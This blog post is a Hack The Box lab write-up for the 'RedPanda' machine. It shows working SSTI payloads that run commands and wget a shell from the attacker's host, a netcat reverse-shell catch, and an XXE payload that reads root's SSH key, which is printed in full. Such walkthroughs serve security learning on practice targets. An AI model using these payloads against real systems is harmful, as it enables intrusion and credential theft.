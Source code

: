 ```yaml
---
layout: post
title: "HTB: RedPanda"
author: Andrew Cherney
date: 2023-04-20 21:26:28
tags: htb easy-box linux webapp xxe ssti
icon: "assets/icons/redpanda.png"
post_description: "The name of the game for this box is trial and error. RedPanda the search engine for red panda pictures is vulnerable to SSTI. Post user there are two jar files being run which need to be investigated. After understanding how they work the user needs to change image metadata, abuse directory traversal, and use an XXE to get the root ssh key."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $nmap -sC 10.10.11.170
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-20 21:41 CDT
Nmap scan report for 10.10.11.170
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Red Panda Search | Made with Spring Boot
```

<h2>Port 8080 - http</h2>

{% include img_link src="/img/redpanda/front_page" alt="front_page" ext="png" trunc=600 %}

Appears we have a search engine which will construct some sort of query to find red panda images based on a provided user input. When I look at the packet in burp suite the only information we pass to the site is a name parameter.

<h1>User as woodenk</h1>

<h2>SSTI</h2>

A bare bones name parameter is passed to the backend code. I'll start with a fuzz of a few things. First this [SSTI payload list](https://github.com/payloadbox/ssti-payloads). Two things happen when I fuzz the name parameter.

#1 There are banned characters such as $ and ~. #2 two payloads return a response which indicated this is vulnerable to SSTI. 

![SSTI test payload](/img/redpanda/SSTI_test_payload.png)

The reason this exploit works in this instance is the web server is using some version of a template engine. That template engine can be used to import local data or run specific code to help render and format pages. When improperly handled user input can reach the code that handles these templates it more often than not leads to RCE. 

Now here comes the complicated part of SSTI: crafting a payload. The two payloads that yielded results were **@(6+5)** **#{7\*7}**. I enumerate further and find that **(6+5)**, **^{7\*7}**, **\*{7\*7}** also work. Here is where I can look around [PayloadAllTheThings SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity) for frameworks and basic tests to find what this is running and further develop an exploit. 

After a little bit of manual enumeration I find that this is likely Java - Spring as the provided payload works to run commands. 

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

![SSTI successful test](/img/redpanda/SSTI_success.png)

I'll use a simple shell upload and then run the shell through this exploit.

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.2:8080/shell').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash shell').getInputStream())}
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.170] 38572
bash: cannot set terminal process group (878): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat ~/user.txt
cat ~/user.txt
94c2a417e6a574e------------------
```

Oh, I'm already woodenk. I suppose it makes sense that akin to Flask, Spring might not traditionally use www-data. 

<h1>Root</h1>

<h2>Following Groups</h2>

I notice that woodenk is a part of the logs group, and searching for files associated with that group I come across a root directory named **/credits**. Within this directory there are xml files with view totals for the images related to the site, and functionally is used to determine whose images are being viewed the most. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
```

This appears it could be vulnerable to an XML eXternal Entity, or an XXE. The file permissions here are only root can edit these xml files. I'd say there's a good chance that whatever process is updating this is run by root. I cannot edit anything file in this directory however. The location of the images is **/opt/panda_search/src/main/resources/static/img**. I have a hunch that if I look at the metadata they will have an author field set. 

Looking further I see that the panda search jar file is run as root, and is most likely the process controlling these files. I'll quickly download it and sift through what is up with the /credits directory. I spin up a python http server and wget the jar file. 

<h2>Debugging Java</h2>

To sift through these class files inside the jar I used IntelliJ IDEA, you could use VSCode if you install a Java decompiler, or Eclipse. I peruse over to the MainController class file. In here is the bones of what is happening in the Credits directory, and additionally contains woodenk's password for the mysql database and doubles as his machine password: **RedPandazRule**. That password is useless as logging into woodenk this way makes the session not a part of the logs group. 

That jar file contains the code for creating the creds.xml files and assigning the authors, but there is nothing in there to change the scores. 

I decide to use pspy64, a process sniffing tool, to find anything running as a cronjob or as root and hidden from **ps -aux** output. 

```bash
2023/04/23 17:28:01 CMD: UID=0     PID=20784  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
2023/04/23 17:28:01 CMD: UID=0     PID=20783  | /bin/sh /root/run_credits.sh 
```

That is exactly what I was looking for. There is one line of code in a class from this new jar which allows us to smuggle in an XXE: **String xmlPath = "/credits/" + artist + "_creds.xml";**. In this line we see that the defined artist of the image provided is passed unsanitized to create the creds.xml file for a particular artist. This is vulnerable to directory traversal, and hence vulnerable to XXE since I can direct it to the home directory where I can create the .xml file for it to update. 

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>
<credits>
  <author>raccoon</author>
  <image>
    <uri>/../../../../../../../home/woodenk/raccoon.jpg</uri>
    <views>0</views>
    <foo>&xxe;</foo>
  </image>
</credits>
```

The final part of the puzzle here is the log file **/opt/panda_search/redpanda.log** which after a new line appears, it is read and then it reads the image artist and updates the views on the creds file. The file creates logs as such:

```
200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/search
200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/img/greg.jpg
```

I'll change the artist of an image, place it in the home directory, and then inject the log of the view of that image. If this works I should have root's ssh key. 

(Editors note, this needs to be done after gaining a shell through the search engine as woodenk is not a part of the logs group otherwise)

```bash
exiftool -Artist="../home/woodenk/raccoon" raccoon.jpg 
scp raccoon.jpg woodenk@10.10.11.170:.
```

```bash
woodenk@redpanda:~$ echo "200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/../../../../../../home/woodenk/raccoon.jpg" > /opt/panda_search/redpanda.log
woodenk@redpanda:~$ cat raccoon_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>raccoon</author>
  <image>
    <uri>/../../../../../../../home/woodenk/raccoon.jpg</uri>
    <views>0</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
</credits>
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $ssh root@10.10.11.170 -i root.key 
root@redpanda:~# cat root.txt
f77f9f36------------------------
```

